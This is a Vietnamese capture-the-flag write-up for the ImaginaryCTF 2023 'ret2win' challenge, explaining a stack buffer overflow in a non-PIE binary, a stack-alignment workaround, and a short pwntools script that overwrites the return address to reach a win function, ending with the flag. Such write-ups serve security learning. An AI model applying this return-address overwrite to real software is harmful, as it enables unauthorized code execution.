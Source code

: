 # RET2WIN

## Mô tả

- Mô tả của challenge:
</br>![img](/imaginaryCTF%202023/Pwn/ret2win/assets/des.png)

## Các thông tin

- Chall cho chúng ta 2 files, bao gồm 1 file ELF64 và 1 file source code C.

- Khi mình mở file code C lên đọc thì thấy code khá đơn giản, chỉ là một lỗi buffer overflow nhỏ và một hàm win thực hiện lệnh `cat flag.txt` trên shell.
</br>![img](/imaginaryCTF%202023/Pwn/ret2win/assets/source.png)

- Mình sẽ kiểm tra các lớp bảo vệ của file xem có thể sử dụng luôn địa chỉ của hàm win trong file binary hay không.
</br>![img](/imaginaryCTF%202023/Pwn/ret2win/assets/checksec.png)

## Ý tưởng

- PIE không được bật, vậy nghĩa là ta chỉ cần ghi đè đến khi nào tới được địa chỉ RET của hàm main trên stack, rồi sau đó ghi đè RET của main bằng địa chỉ của hàm win là xong.

- Tuy nhiên thì nếu ta cho thẳng địa chỉ của hàm win vào sẽ không được, điều này là do lời gọi đến hàm system yêu cầu stack phải được align.

- Do đó mình sẽ chỉ lấy địa chỉ bắt đầu của hàm system thôi (bắt đầu từ đoạn truyền đối số cho rdi, ...)
</br>![img](/imaginaryCTF%202023/Pwn/ret2win/assets/win.png)

## Script

```python
from pwn import *

p = remote("ret2win.chal.imaginaryctf.org", 1337)

win = 0x401182

payload = b"a"*0x48 + p64(win)
p.sendline(payload)
p.interactive()
```

## Kết quả

![img](/imaginaryCTF%202023/Pwn/ret2win/assets/res.png)

> Flag: ictf{r3turn_0f_th3_k1ng?}
